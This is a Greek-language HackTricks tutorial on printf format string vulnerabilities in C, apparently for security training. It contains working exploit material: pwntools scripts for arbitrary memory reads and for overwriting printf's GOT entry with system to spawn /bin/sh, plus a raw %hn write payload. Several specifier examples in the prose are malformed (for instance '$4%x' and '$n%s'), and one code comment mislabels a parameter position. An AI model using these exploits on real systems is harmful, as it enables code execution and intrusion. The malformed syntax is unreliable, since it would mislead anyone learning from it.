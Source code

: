 # Συμβολοσειρές Μορφοποίησης

<details>

<summary><strong>Μάθετε να χακάρετε το AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Ειδικός Red Team του HackTricks για το AWS)</strong></a><strong>!</strong></summary>

* Εργάζεστε σε μια **εταιρεία κυβερνοασφάλειας**; Θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks**; ή θέλετε να έχετε πρόσβαση στην **τελευταία έκδοση του PEASS ή να κατεβάσετε το HackTricks σε μορφή PDF**; Ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Ανακαλύψτε την [**Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Εγγραφείτε στην** [**💬**](https://emojipedia.org/speech-balloon/) [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα τηλεγραφήματος**](https://t.me/peass) ή **ακολουθήστε** με στο **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα κόλπα σας στο χάκινγκ υποβάλλοντας PRs στο** [**αποθετήριο hacktricks**](https://github.com/carlospolop/hacktricks) **και** [**αποθετήριο hacktricks-cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Βασικές Πληροφορίες

Στη γλώσσα C, η **`printf`** είναι μια συνάρτηση που μπορεί να χρησιμοποιηθεί για να **εκτυπώσει** μια συμβολοσειρά. Η **πρώτη παράμετρος** που αναμένει αυτή η συνάρτηση είναι το **ακατέργαστο κείμενο με τους μορφοποιητές**. Οι **επόμενες παράμετροι** που αναμένονται είναι οι **τιμές** που θα **αντικατασταθούν** στους **μορφοποιητές** από το ακατέργαστο κείμενο.

Η ευπάθεια εμφανίζεται όταν ένα **κείμενο επιτιθέμενου χρησιμοποιείται ως η πρώτη παράμετρος** σε αυτή τη συνάρτηση. Ο επιτιθέμενος θα μπορεί να δημιουργήσει μια **ειδική είσοδο καταχρώμενος** τις **δυνατότητες της μορφοποίησης της συνάρτησης printf** για να διαβάσει και **εγγράψει οποιαδήποτε δεδομένα σε οποιαδήποτε διεύθυνση (αναγνώσιμη/εγγράψιμη)**. Με αυτόν τον τρόπο μπορεί να **εκτελέσει αυθαίρετο κώδικα**. 

#### Μορφοποιητές:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**Παραδείγματα:**

* Ευάλωτο παράδειγμα:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* Κανονική Χρήση:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* Με Λείποντα Ορίσματα:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
### **Πρόσβαση σε Δείκτες**

Η μορφή **`%<n>$x`**, όπου `n` είναι ένας αριθμός, επιτρέπει στο printf να επιλέξει την παράμετρο n (από τη στοίβα). Έτσι, αν θέλετε να διαβάσετε την 4η παράμετρο από τη στοίβα χρησιμοποιώντας το printf, μπορείτε να κάνετε:
```c
printf("%x %x %x %x")
```
και θα διαβάζετε από την πρώτη έως την τέταρτη παράμετρο.

Ή μπορείτε να κάνετε:
```c
printf("$4%x")
```
και διαβάστε απευθείας το τέταρτο.

Σημειώστε ότι ο επιτιθέμενος ελέγχει την παράμετρο `pr`**`intf`**, που σημαίνει βασικά ότι **η είσοδός του θα βρίσκεται στη στοίβα όταν καλείται η `printf`**, πράγμα που σημαίνει ότι θα μπορούσε να γράψει συγκεκριμένες διευθύνσεις μνήμης στη στοίβα.

{% hint style="danger" %}
Ένας επιτιθέμενος που ελέγχει αυτήν την είσοδο, θα μπορεί να **προσθέσει αυθαίρετη διεύθυνση στη στοίβα και να κάνει την `printf` να τις προσπελάσει**. Στην επόμενη ενότητα θα εξηγηθεί πώς να χρησιμοποιηθεί αυτή η συμπεριφορά.
{% endhint %}

## **Αυθαίρετη Ανάγνωση**

Είναι δυνατό να χρησιμοποιηθεί ο μορφοποιητής **`$n%s`** για να κάνει η **`printf`** να πάρει τη **διεύθυνση** που βρίσκεται στη **θέση n**, να την ακολουθήσει και **να την εκτυπώσει σαν να ήταν ένα string** (να εκτυπώσει μέχρι να βρει ένα 0x00). Έτσι, αν η βασική διεύθυνση του δυαδικού είναι **`0x8048000`**, και γνωρίζουμε ότι η είσοδος του χρήστη ξεκινά στην 4η θέση στη στοίβα, είναι δυνατό να εκτυπώσουμε την αρχή του δυαδικού με:
```python
from pwn import *

p = process('./bin')

payload = b'%6$p' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
Σημειώστε ότι δεν μπορείτε να τοποθετήσετε τη διεύθυνση 0x8048000 στην αρχή της εισόδου επειδή η συμβολοσειρά θα συνδεθεί με το 0x00 στο τέλος αυτής της διεύθυνσης.
{% endhint %}

## **Αυθαίρετη Εγγραφή**

Ο μορφοποιητής **`$<num>%n`** γράφει τον **αριθμό των γραμμένων bytes** στην **υποδειγμένη διεύθυνση** στην παράμετρο \<num> στο stack. Αν ένας επιτιθέμενος μπορεί να γράψει τόσα χαρακτήρες όσα θέλει με τη χρήση της printf, τότε θα μπορεί να κάνει το **`$<num>%n`** να γράψει έναν αυθαίρετο αριθμό σε μια αυθαίρετη διεύθυνση.

Ευτυχώς, για να γράψετε τον αριθμό 9999, δεν είναι απαραίτητο να προσθέσετε 9999 "A" στην είσοδο, αντ' αυτού είναι δυνατό να χρησιμοποιηθεί ο μορφοποιητής **`%.<num-write>%<num>$n`** για να γράψετε τον αριθμό **`<num-write>`** στη **διεύθυνση που δείχνει η θέση `num`**.
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
Ωστόσο, να σημειωθεί ότι συνήθως για να γράψετε μια διεύθυνση όπως `0x08049724` (που είναι ένα ΤΕΡΑΣΤΙΟ νούμερο για να γραφτεί με μία φορά), **χρησιμοποιείται `$hn`** αντί για `$n`. Αυτό επιτρέπει να **γραφτούν μόνο 2 Bytes**. Συνεπώς, αυτή η λειτουργία εκτελείται δύο φορές, μία για τα υψηλότερα 2B της διεύθυνσης και μια άλλη φορά για τα χαμηλότερα.

Επομένως, αυτή η ευπάθεια επιτρέπει να **γραφτεί οτιδήποτε σε οποιαδήποτε διεύθυνση (αυθαίρετη εγγραφή).**

Σε αυτό το παράδειγμα, ο στόχος είναι να **αντικατασταθεί** η **διεύθυνση** μιας **συνάρτησης** στον **πίνακα GOT** που θα κληθεί αργότερα. Αν και αυτό θα μπορούσε να εκμεταλλευτεί άλλες τεχνικές αυθαίρετης εγγραφής για εκτέλεση:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

Θα **αντικατασταθεί** μια **συνάρτηση** που **λαμβάνει** τα **ορίσματά της** από τον **χρήστη** και θα την **κατευθύνει** προς τη **συνάρτηση `system`**.\
Όπως αναφέρθηκε, για να γράψετε τη διεύθυνση, συνήθως απαιτούνται 2 βήματα: Πρέπει να **γράψετε πρώτα τα 2Bytes** της διεύθυνσης και στη συνέχεια τα άλλα 2. Για να το κάνετε αυτό χρησιμοποιείται το **`$hn`**.

* Το **HOB** αναφέρεται στα 2 υψηλότερα bytes της διεύθυνσης
* Το **LOB** αναφέρεται στα 2 χαμηλότερα bytes της διεύθυνσης

Στη συνέχεια, λόγω του τρόπου λειτουργίας της συμβολοσειράς μορφοποίησης, πρέπει να **γράψετε πρώτα το μικρότερο** από \[HOB, LOB] και στη συνέχεια το άλλο.

Αν το HOB < LOB\
`[διεύθυνση+2][διεύθυνση]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

Αν το HOB > LOB\
`[διεύθυνση+2][διεύθυνση]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Πρότυπο Pwntools

Μπορείτε να βρείτε ένα πρότυπο για την προετοιμασία ενός εκμεταλλεύοντας για αυτο το είδος ευπαθειας στο:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

Ή αυτό το βασικό παράδειγμα από [**εδώ**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite):
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## Άλλα Παραδείγματα & Αναφορές

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Εργάζεστε σε μια **εταιρεία κυβερνοασφάλειας**; Θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks**; Ή θέλετε πρόσβαση στην **τελευταία έκδοση του PEASS ή να κατεβάσετε το HackTricks σε μορφή PDF**; Ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Ανακαλύψτε την [**Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Εγγραφείτε στη** [**💬**](https://emojipedia.org/speech-balloon/) [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα τηλεγράφου**](https://t.me/peass) ή **ακολουθήστε** με στο **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στο** [**αποθετήριο hacktricks**](https://github.com/carlospolop/hacktricks) **και** [**αποθετήριο hacktricks-cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
